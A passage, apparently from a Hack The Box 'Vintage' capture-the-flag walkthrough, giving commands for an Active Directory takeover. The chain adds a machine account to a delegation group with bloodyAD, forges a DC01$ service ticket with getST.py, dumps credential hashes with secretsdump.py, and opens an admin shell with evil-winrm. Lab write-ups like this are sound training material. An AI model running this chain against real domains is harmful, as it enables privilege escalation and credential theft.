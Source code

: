 <img width="808" height="114" alt="image" src="https://github.com/user-attachments/assets/9afa5cd5-7fb8-40ae-9c1c-0d783865fe77" />

28. First, we'll add the FS01$ account to the DelegatedAdmins group with BloodyAD.

`bloodyAD -d vintage.htb -u c.neri_adm -p $(cat c.neri_adm.pass) --host dc01.vintage.htb -k add groupMember DelegatedAdmins 'fs01$'`

<img width="912" height="56" alt="image" src="https://github.com/user-attachments/assets/bf2d147e-6417-4f6a-b1dd-0239acf8bb5f" />

29. Next, we will abuse FS01$'s ability to act on behalf of another identity to get a service ticket impersonating as DC01.

`getST.py -spn 'cifs/dc01.vintage.htb' -impersonate 'DC01$' 'vintage.htb'/'fs01$:fs01' -k`

<img width="912" height="493" alt="image" src="https://github.com/user-attachments/assets/2734f07e-fc3b-4e87-b72c-49fafe2b41bb" />

30. Set the KRB5CCNAME environment variable to use this ticket for kerberos authentication.

`export KRB5CCNAME=/home/joseph12/htb/vintage/root/dc01\$@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache`

31. Now we do a secretsdump on the machine, using DC01's ticket.

`secretsdump.py -k dc01.vintage.htb`

<img width="912" height="453" alt="image" src="https://github.com/user-attachments/assets/04c1eb85-e55d-4113-9277-722b41dfb602" />

32. With the admin hash, we get a TGT as administrator and attempt to log on to the machine with psexec and evil-winrm. However, both fail. We try the same process as l.bianchi_adm, who is part of the Domain Admins group and this time, it works! We have a root shell on the machine via evil-winrm and retrieve the root flag

`evil-winrm -i dc01.vintage.htb -r vintage.htb`

<img width="509" height="177" alt="image" src="https://github.com/user-attachments/assets/63a186d7-6caf-4fcb-ae2d-4fa6da32d540" />

